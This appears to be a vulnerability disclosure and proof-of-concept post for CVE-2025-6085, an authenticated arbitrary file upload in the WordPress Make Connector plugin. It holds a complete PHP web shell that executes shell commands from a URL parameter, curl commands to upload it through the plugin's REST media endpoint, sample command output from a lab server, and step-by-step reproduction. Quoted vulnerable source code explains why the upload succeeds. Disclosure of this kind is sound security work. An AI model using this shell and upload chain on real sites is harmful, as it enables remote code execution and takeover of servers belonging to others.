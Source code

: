 +++
title = 'Make Connector <= 1.5.10 - Authenticated (Admin+) Arbitrary File Upload'
date = 2025-09-03T00:00:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "integromat-connector"]
description = "CVE-2025-6085: WordPress Make Connector plugin authenticated file upload vulnerability via REST API media uploads."
+++
### CVE-2025-6085

The [Make Connector](https://wordpress.org/plugins/integromat-connector/) plugin does not sanitize the file types in its REST API media uploads, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits

```bash
cat << 'EOF' > shello.php
<?php    
    // Silence is golden
    if (!empty($_GET['cmd'])) {
        echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
    }
?>
EOF

curl -k -X POST https://lab1.hacker/wp-json/wp/v2/media \
  -H "IWC-API-KEY: YOURFRIENDLYKEYHERE" \
  -F "file=@shello.php" \
  -F "title=Hacker World" \
  -F "description=A test file" \
  -F "caption=Hacker Caption" \
```

Leveraging the shell once it's in the uploads folder:
```bash
curl -k https://lab1.hacker/wp-content/uploads/2025/04/shello.php\?cmd\=ip%20addr         

<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 67461sec preferred_lft 67461sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86201sec preferred_lft 14201sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:bd:e1:95:26 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `/wp-content/integromat-connector/class/class-rest-request.php` file's `dispatch()` function will call `self::upload_media();` on line [24](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L24). This `upload_media()` function copies the uploaded file to a browsable directory `copy( realpath( $_FILES['file']['tmp_name'] ), $media_file_source );` on line [74](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L74), prior to checking the allowed mime types, which it does on lines [90-95](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L90-95)

Vulnerable snipped from `class-rest-reques.php`:
```php
66	                if ( (int) $_FILES['file']['size'] === 0 ) {
67	                        Rest_Response::render_error( 500, 'The uploaded file exceeds the upload_max_filesize directive in php.ini.', 'rest_upload_unknown_error' );
68	                }
69	
70	                if ( (int) $_FILES['file']['error'] > 0 ) {
71	                        Rest_Response::render_error( 500, 'An error has occured when uploading file to the server.', 'rest_upload_unknown_error' );
72	                }
73	
74	                copy( realpath( $_FILES['file']['tmp_name'] ), $media_file_source );
75	
76	                $title       = isset( $_REQUEST['title'] ) ? sanitize_title( $_REQUEST['title'] ) : '';
77	                $description = isset( $_REQUEST['description'] ) ? sanitize_text_field( $_REQUEST['description'] ) : '';
78	                $caption     = isset( $_REQUEST['caption'] ) ? sanitize_text_field( $_REQUEST['caption'] ) : '';
79	                $alt_text    = isset( $_REQUEST['alt_text'] ) ? sanitize_text_field( $_REQUEST['alt_text'] ) : '';
80	                $post_id     = isset( $_REQUEST['post'] ) ? (int) $_REQUEST['post'] : '';
81	
82	                $upload_dir = wp_upload_dir();
83	                $filename   = basename( $media_file_source );
84	                if ( wp_mkdir_p( $upload_dir['path'] ) ) {
85	                        $file = $upload_dir['path'] . '/' . $filename;
86	                } else {
87	                        $file = $upload_dir['basedir'] . '/' . $filename;
88	                }
89	
90	                $wp_file_type  = wp_check_filetype( $filename, null );
91	                $allowed_types = get_allowed_mime_types();
92	
93	                if ( ! in_array( $wp_file_type['type'], $allowed_types ) ) {
94	                        Rest_Response::render_error( 500, 'Sorry, this file type is not permitted for security reasons.', 'rest_upload_unknown_error' );
95	                }
```

## Manual Reproduction
1. Login to the admin panel and navigate to the `Make` plugin's settings, and copy the API key.
![one](/posts/images/cve-2025-6085/1.png)
2. Make a dirty web shell, or bring your own if you'd like:
```bash
cat << 'EOF' > shello.php
<?php    
    // Silence is golden
    if (!empty($_GET['cmd'])) {
        echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
    }
?>
EOF
```
2. Execute the following curl command to hit the plugin's media REST endpoint.
```bash
curl -k -X POST \
  https://VICTIMURLHERE/wp-json/wp/v2/media \
  -H "IWC-API-KEY: cjusksft1dwcoq43lyy6a6lf9tb6qc63" \
  -F "file=@shello.php" \
  -F "title=Hacker World" \
  -F "description=A test file" \
  -F "caption=Hacker Caption" \
  -F "alt_text=Hacker Alt Text"
```
3. You will see a json response like below, but that's OK because our file already got moved :)
```json
{
    "code": "rest_upload_unknown_error",
    "message": "Sorry, this file type is not permitted for security reasons.",
    "data": {
        "status": 500
    }
}
```
4. Naviate to the webshell located at `https://lab1.hacker/wp-content/uploads/2025/04/shello.php?cmd=ip%20addr`.
